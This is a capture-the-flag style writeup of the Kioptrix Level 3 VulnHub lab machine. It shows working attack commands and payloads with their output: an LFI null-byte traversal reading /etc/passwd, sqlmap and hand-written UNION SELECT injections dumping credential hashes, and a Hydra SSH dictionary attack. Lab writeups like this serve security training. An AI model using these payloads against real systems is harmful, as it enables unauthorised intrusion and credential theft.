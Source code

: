 ```yaml
---
layout: post
title:  "Kioptrix Level 3 Writeup"
date:   2019-04-14 21:28:02 +0530
author: Kyle Simmons
categories: [vulnhub, vulnerable-machine]
---
```

Kioptrix level 3 vulnerable machine from vulnhub.

Kioptrix level 3 vulnhub link below: <br>
[Kioptrix Level 3 download page]
<br><br>
<h2>1. Enumeration</h2>
<br>
A port scan reveals that only SSH and HTTP is open.
{% highlight shell_session %}
nmap -T4 -sV -A -oA nmapscan 192.168.0.71
Nmap scan report for UNKNOWN (192.168.0.71)
Host is up (0.0051s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey:
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
{% endhighlight %}
<br>


<h3>1.1 SSH</h3>
<b>
SSH appears to not have any vulnerable versions. However, SSH could possibly have weak credentials.
<br><br>


<h3>1.2.1 HTTP</h3>
<br>
Dirb and Nikto is run in the background to check for any interesting pages or vulnerabilities. Dirb reveals
that there is an accessible <font color="red">phpmyadmin</font> page. The page can be logged in
using the username <font color="red">root</font> and the
password can be a random string. However, this did not really reveal anything and the default login has no privileges.
<br><br>
The login page reveals that it is powered by <font color="red">lotus</font>.
<br><br><br>
![Kioptrix level 3 lotus login](/assets/images/Kioptrix/Kioptrix3-lotus-login.png)
<br><br>
Using searchsploit, a vulnerability is found:
<br>
![Kioptrix level 2 lotus vuln](/assets/images/Kioptrix/Kioptrix3-lotus-cms-vuln.png)
<br><br>
This vulnerability is for remote command execution with metasploit. This can be used
to get a meterpreter shell on the target. Finding this exploit was too easy. However there are several
vulnerabilities on this machine.
<br><br>


<h3>1.2.2 HTTP - LFI</h3>
<br>
The URL appears to include files, this could possibly be vulnerable to LFI.
<br><br>
`http://192.168.0.71/index.php?system=Blog`
<br><br>
Using the following after system <font color="red">../../../../../etc/passwd</font> reveals nothing. However, with some research.
The OWSAP 'Testing for LFI page' reveals that when using PHP, a null byte terminator at the end of the file will
bypass it. When using the following:
<br><br>
`http://vulnerable_host/preview.php?file=../../../../etc/passwd%00jpg`
<br>
{% highlight shell_session %}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
...............
...............
mysql:x:104:108:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
loneferret:x:1000:100:loneferret,,,:/home/loneferret:/bin/bash
dreg:x:1001:1001:Dreg Gevans,0,555-5566,:/home/dreg:/bin/rbash
{% endhighlight %}
This shows the passwd contents which can used for brute forcing SSH. <font color="red">loneferret</font> and <font color="red">dreg</font> can be used to perform a
dictionary attack against them over SSH.
<br><br>
More info from OWASP here: [OWASP LFI testing]
<br><br>


<h3>1.2.3 HTTP - sqlmap (Easy SQL Injection)</h3>
<br>
When browsing the website, the gallery page has a button to filter by an ID. This appears to
be a form of retrieving data from the SQL database. Using the <font color="red">'</font> at the end of the ID, an SQL
error appears which is good news. The website is vulnerable to SQL. SQLmap is then used to check for the
databases:
<br><br>
`sqlmap -u http://192.168.0.71/gallery/gallery.php\?id\=">http://192.168.0.71/gallery/gallery.php\?id\= --dbs`
<br><br>
available databases [3]:<br>
<font color="red">gallery</font>---
<font color="red">information_schema</font>---
<font color="red">mysql</font>---
<br>
Three databases were revealed above. The gallery database could be the contents of
the images and users of the gallery. The database <font color="red">gallery</font> can searched next.
<br><br>
`sqlmap -u http://192.168.0.71/gallery/gallery.php\?id\=">http://192.168.0.71/gallery/gallery.php\?id\= -D gallery --'tables'`

{% highlight shell_session %}
Database: gallery
[7 tables]
+----------------------+
| `dev_accounts`       |
| gallarific_comments  |
| gallarific_galleries |
| gallarific_photos    |
| gallarific_settings  |
| gallarific_stats     |
| gallarific_users     |
+----------------------+
{% endhighlight %}
<br>
A table of <font color="red">dev_accounts</font> is worth investigating, this could contain <font color="red">dev</font> accounts.. duh.
<br><br>
`sqlmap -u http://192.168.0.71/gallery/gallery.php\?id\=http://192.168.0.71/gallery/gallery.php\?id\= -D gallery -T dev_accounts --dump`

{% highlight shell_session %}
Database: gallery
Table: dev_accounts
[2 entries]
+----+------------+---------------------------------------------+
| id | username   | password                                    |
+----+------------+---------------------------------------------+
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   |
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e (starwars) |
+----+------------+---------------------------------------------+
{% endhighlight %}
<br>
The <font color="red">dev_accounts</font> results contain 2 usernames and 2 hashes which were easily
crackable with sqlmap.
<br><br>
<h3>1.2.4 HTTP - SQLI (without sqlmap)</h3>
<br>
Checking for the amount of columns by using <font color="red">ORDER BY</font>.<br>
`id=2 union select 1,2,3,4,5,6`
<br><br>
Finding the database and tables using <font color="red">UNION SELECT</font>. This results in the database <font color="red">gallery</font> being shown. <br>
`id=2 UNION SELECT 1, table_schema, table_name,4,5,6 FROM information_schema.tables--`
<br><br>
Searching inside the database gallery:<br>
`id=1 UNION SELECT 1, table_name,3,4,5,6 FROM information_schema.tables WHERE table_schema = 'gallery'#`
<br><br>
The gallery table shows the dev_accouns table. The dev_accounts can then be searched for the columns.<br>
`id=1 UNION SELECT 1, column_name,3,4,5,6 FROM information_schema.columns WHERE table_name = 'dev_accounts'#`
<br><br>
The columns reveal the 2 user accounts and there corresponding hashes. The hashes can then be cracked with
john the ripper.
<br><br>

<h2>2.1 Exploitation - SSH</h2>
<br>
The credentials fetched from the LFI attack can be run against a dictionary.<br>
{% highlight shell_session %}
hydra -t 6 -l loneferret -P 10k-most-common.txt 192.168.0.71 ssh
Hydra v8.9.1 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 10000 login tries (l:1/p:10000), ~2500 tries per task
[DATA] attacking ssh://192.168.0.71:22/
[STATUS] 52.00 tries/min, 52 tries in 00:01h, 9948 to do in 03:12h, 4 active
[22][ssh] host: 192.168.0.71   login: loneferret   password: starwars
1 of 1 target successfully completed, 1 valid password found
{% endhighlight %}
<br>
The dictionary attack with Hydra above was successful and the password was revealed as <font color="red">starwars</font>. When attempting to login
to SSH with this username and password it is successful. When browsing files i found a configuration file in the gallery
directory which contains the mysql login which is <font color="red">root</font> and the password is <font color="red">fuckeyou</font>. This gives us full root access to
the database.
<h3>Pwned!</h3>

[Kioptrix Level 3 download page]: https://www.vulnhub.com/entry/kioptrix-level-12-3,24/
[OWASP LFI testing]: https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion
